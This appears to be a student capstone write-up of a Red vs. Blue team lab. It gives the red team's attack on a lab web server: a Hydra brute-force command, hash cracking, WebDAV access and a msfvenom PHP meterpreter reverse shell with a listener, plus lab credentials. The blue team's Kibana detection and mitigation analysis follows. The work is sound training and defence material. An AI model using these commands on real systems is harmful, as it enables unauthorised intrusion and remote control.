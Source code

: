 ## Note: The report of this project is attached above in pdf format
# Summary
# Red Vs. Blue Team Project
Capstone Engagement
Assessment, Analysis, and Hardening of a Vulnerable System
## Red Team
### The Attack
### Step 1: Discover the IP address of the Linux server
Run `nmap 192.168.1.0/24`
* From the Nmap scan we can see that port 80 and port 22 is open
* image25
* In the web browser, searched IP 192.168.1.105
* Information that helped with finding the secret folder is in the screenshot
* image30
### Step 2: Locate the hidden directory on the server.
- Navigated to the secret folder directory by typing: 192.168.1.105/company_folders/secret_folder into the search bar
- The directory asks for authentication in order to access it.The user with access to this folder is Ashton 
### Step 3: Brute force the password for the hidden directory.
- The folder is password protected and we used Hydra to brute force into the directory. We ran Hydra against Ashton's user name and wordlist
- Command: `hydra -l ashton -P /usr/share/wordlists/rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder`
- image29
- The username is ashton and the password is leopoldo
- We accessed the Secret folder and we got the information below
- image33
- image34
- Inside of the WebDAV file are instructions on how to connect to the WebDAV directory, as well the user's username and hashed password.
- image3
### Step 4: Connect to the server via Webdav
- We simply used and online tool called Crack Station to break the password hash. https://crackstation.net
- image6
- The password is revealed as: linux4u
### Step 5: Connect to the server via WebDAV
- Following the direction in the secret folder
- Open the File System
- Click Browse Network
- Type: dav://192.168.1.105/webdav into the url bar
- Enter Ryan's credentials to log in
- image
### Step 6: Upload a PHP reverse shell payload
- Command to create the reverse shell:
- Commad: `msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 >> shell.php`
- image2
- To set up listener
- Run `msfconsole`
- Run `use exploit/multi/handler`
- Run `set payload php/meterpreter/reverse_tcp`
- Run `show options and point out they need to set the LHOST`
- Run `set LHOST 192.168.1.90`
- Run `exploit`
- Copy the reverse shell onto the WebdDAV directory
- image5
- connect to the webdav folder by navigating to 192.168.1.105/webdav and use ryan's username and password `username:ryan password:linux4u`
- click on the shell.php file to activate it.
- image4
### Step 7: Find and capture the flag
- Run `shell` to drop into bash shell
- Command to find the flag: `find . -iname flag.txt`
- image1
## Blue Team
## Incident Analysis with Kibana
### Final dashboard
- image10
- image11
### 1. Identify the Offensive Traffic
- Run `source.ip: 192.168.1.90 and destination.ip: 192.168.1.105` in which the source IP is my Kali machine and the destination machine is the victim web server
- Run `url.path: /company_folders/secret_folder/`
- The attack occurred in the last 7 days
- image13-1
- We can see 401, 301, 207 and 200 as the top responses
- We can also see with the HTTP Error Codes [Packetbeat] ECS panel:
- image14
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- image15
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- image16
- ALERT: Rate-limiting traffic from a specific IP address would reduce the web server's susceptibility to DoS conditions, as well as provide a hook against which to trigger alerts against suspiciously suspiciously fast series of requests that may be indicative of scanning.
### 2. Find the Request for the Hidden Directory
- Looking at the Top 10 HTTP requests [Packetbeat] ECS panel:
- image17
- we can see that the hidden directory (secret folder) folder was requested 16,075 times
- image19
- We can see in the same panel that the file connect_to_corp_server was requested 2 times
- ALERT: We could set an alert that goes off for any machine that attempts to access this directory or file.
- Mitigation: The secret_folder directory should be protected with stronger authentication. E.g., it could be moved to a server to which only key-based SSH access from whitelisted IPs is enabled
- The data inside of secret_folder should be encrypted at rest
### 3. Identify the Brute Force Attack
- identifying packets specifically from Hydra
- Using the search function search url.path: /company_folders/secret_folder/. This will show a few conversations involving this folder.
- image18
- Looking through the results and we notice that Hydra is identified under the user_agent.original section
- In the Top 10 HTTP requests [Packetbeat] ECS panel, we can see that the password protected secret_folder was requested 16,075 times, but the file inside that directory was only requested 2 times. So, out of 16,075 requests, only 2 were successful
- Take a look at the HTTP status codes for the top queries [Packetbeat] ECS panel
- image20
- We can see on this panel the breakdown of 401 Unauthorized status codes as opposed to 200 OK status codes.
- We can also see the spike in both traffic to the server and error codes.
- We can see a connection spike in the Connections over time [Packetbeat Flows] ECS
- image21
- We can also see a spike in errors in the Errors vs successful transactions [Packetbet] ECS
- image22
- These are all results generated by the brute force attack with Hydra.
- ALERT: We could set an alert if 401 Unauthorized is returned from any server over a certain threshold that would weed out forgotten passwords. Start with 10 in one hour and refine from there
- We could also create an alert if the user_agent.original value includes Hydra in the name
- Create an alert that triggers after 3 lock outs by each user
- Mitigation: After the limit of 10 401 Unauthorized codes have been returned from a server, that server can automatically drop traffic from the offending IP address for a period of 1 hour. We could also display a lockout message and lock the page from login for a temporary period of time from that user.
- The fail2ban utility can be enabled to protect against brute force attacks
### 4. Find the WebDav Connection
- We can again see in the Top 10 HTTP requests [Packetbeat] ECS panel that the webdav folder was directly connected and files inside were accessed.
- image23
- We can see the passwd.dav file was requested as well as a file named shell.php
- ALERT: We can create an alert anytime this directory is accessed by a machine other than the machine that should have access
- Mitigation: Connections to this shared folder should not be accessible from the web interface.
- Connections to this shared folder could be restricted by machine with a firewall rule
### 5. Identify the Reverse Shell and meterpreter Traffic
- We can see the shell.php file in the webdav directory on the Top 10 HTTP requests [Packetbeat] ECS panel
- image23
- Remember that your meterpreter session ran over port 4444. Port 4444 is the default port used for meterpreter and the port used in all of their documentation. Because of this, many attackers forget to change this port when conducting an attack. You can construct a search query to find these packets.
- Query: `source.ip: 192.168.1.105 and destination.port: 4444`
- ALERT: We can set an alert for any traffic moving over port 4444.
- We can set an alert for any .php file that is uploaded to a server 
- Mitigation: File uploads should require authentication
- Removing the ability to upload files to this directory over the web interface would take care of this issue.
